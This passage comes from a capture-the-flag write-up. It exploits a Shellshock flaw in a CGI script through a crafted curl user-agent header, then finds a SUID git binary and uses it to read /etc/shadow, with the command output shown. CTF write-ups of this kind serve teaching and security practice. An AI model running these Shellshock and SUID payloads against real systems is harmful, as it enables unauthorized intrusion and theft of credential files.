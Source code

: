Nope. We do not have enough privilege to read the `shadow` file. We'll have to somehow escalate to `root` to read that file.

### Privilege Escalation

First of all, let's check for a misconfigured `sudo` rights.

```
$ curl -A '() { :; }; echo ; PATH=/bin:/usr/bin sudo -l -l 2>&1' https://stt.uctf.ir/cgi-bin/uptime.sh
/opt/bash/bin/bash: sudo: command not found
```

Doesn't seem like `sudo` is even installed.

Let's see if server is misconfigured with any executables that have the [SUID bit](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit) set.

```
$ curl -A '() { :; }; echo ; PATH=/bin:/usr/bin find /bin /usr/bin -type f -perm -u=s 2>/dev/null' https://stt.uctf.ir/cgi-bin/uptime.sh
/usr/bin/git
$ curl -A '() { :; }; echo ; PATH=/bin:/usr/bin stat /usr/bin/git 2>&1' https://stt.uctf.ir/cgi-bin/uptime.sh
  File: /usr/bin/git
  Size: 2779104         Blocks: 5432       IO Block: 4096   regular file
Device: 86h/134d        Inode: 2115270     Links: 1
Access: (4755/-rwsr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2023-08-21 15:51:39.280721000 +0000
Modify: 2023-04-25 17:12:46.000000000 +0000
Change: 2023-08-21 15:51:39.118721000 +0000
```

Jackpot! `git` executable has the SUID bit set and is owned by root. We have to somehow get `git` to read `/etc/shadow` for us.

Fortunately for us, `git` can actually be [used to read files and more!](https://gtfobins.github.io/gtfobins/git/)

```
$ curl -A '() { :; }; echo ; PATH=/bin:/usr/bin git diff /dev/null /etc/shadow 2>&1' https://stt.uctf.ir/cgi-bin/uptime.sh
diff --git a/etc/shadow b/etc/shadow
new file mode 100644
index 0000000..560fd89
--- /dev/null
+++ b/etc/shadow
@@ -0,0 +1,29 @@
+root:*::0:::::
+bin:!::0:::::
+daemon:!::0:::::
+adm:!::0:::::
+lp:!::0:::::
+sync:!::0:::::
+shutdown:!::0:::::
+halt:!::0:::::
+mail:!::0:::::
+news:!::0:::::
+uucp:!::0:::::
+operator:!::0:::::
+man:!::0:::::
+postmaster:!::0:::::
+cron:!::0:::::
+ftp:!::0:::::
+sshd:!::0:::::
+at:!::0:::::
+squid:!::0:::::
+xfs:!::0:::::
```